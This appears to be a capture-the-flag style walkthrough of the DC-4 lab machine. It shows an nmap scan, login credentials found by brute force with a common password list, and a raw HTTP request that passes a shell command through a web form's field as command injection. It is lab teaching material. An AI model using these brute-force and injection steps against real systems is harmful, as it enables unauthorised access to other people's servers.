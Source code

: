 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/dc-4,313/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery

We start with a simple port scan to get information about the attack surface.

## port scan
```bash
$ nmap -Pn -p- 192.168.193.195
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 20:16 CEST
Nmap scan report for 192.168.193.195
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.54 seconds
```

The web server shows a standard login panel.

---

# exploitation
## login brute force
> Brute forcing the login page with some often used passwords (e.g. `/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt`) shows that the credentials `admin:happy` are working.
{: .prompt-info }

## command injection
Clicking through the admin interface reveals a feature which allows to list a directory on the server.
```http
POST /command.php HTTP/1.1
Host: 192.168.193.195
Content-Length: 22
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.193.195
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.193.195/command.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l946hgu7t13k47989p6m2lpq52
Connection: close

radio=ls+-l&submit=Run
```